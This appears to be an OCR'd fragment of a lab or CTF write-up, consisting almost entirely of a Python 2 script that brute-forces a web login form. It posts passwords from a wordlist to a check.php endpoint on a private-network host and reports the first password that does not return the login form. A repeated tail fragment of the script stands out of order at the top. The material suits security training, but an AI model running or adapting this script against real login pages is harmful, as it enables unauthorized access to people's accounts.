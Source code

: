 ```python
  print "No redirection or different redirection with password {0}".format(word)
  print r.headers
  print r.content
  break

fd.close()
```

Ceci est une séparation. *Keep calm and blame Canada*.  

```python
import requests
import sys

if len(sys.argv) < 2:
  print "Usage: python {0} <user> <dict_file>".format(sys.argv[0])
  sys.exit()

hdrs = {
    "referer": "http://192.168.1.29/super_secret_login_path_muhahaha/personnal.php",
    "content-type": "application/x-www-form-urlencoded"
    }
data = {
      "username": sys.argv[1],
      "password": "test",
      "mysubmit": "Login"
    }

fd = open(sys.argv[2])
i = 0

while True:
  word = fd.readline()
  if not word:
    break

  word = word.strip()
  data["password"] = word
  i = i + 1
  if i == 500:
      print "Testing", word
      i = 0

  sess = requests.session()
  r = sess.post("http://192.168.1.29/super_secret_login_path_muhahaha/check.php", data=data, headers=hdrs)
  if """<FORM name="login" method="post" action="login.php">""" in r.content:
      continue

  print "No login form with password {0}".format(word)
  print r.headers
  print r.content
  break

fd.close()
```
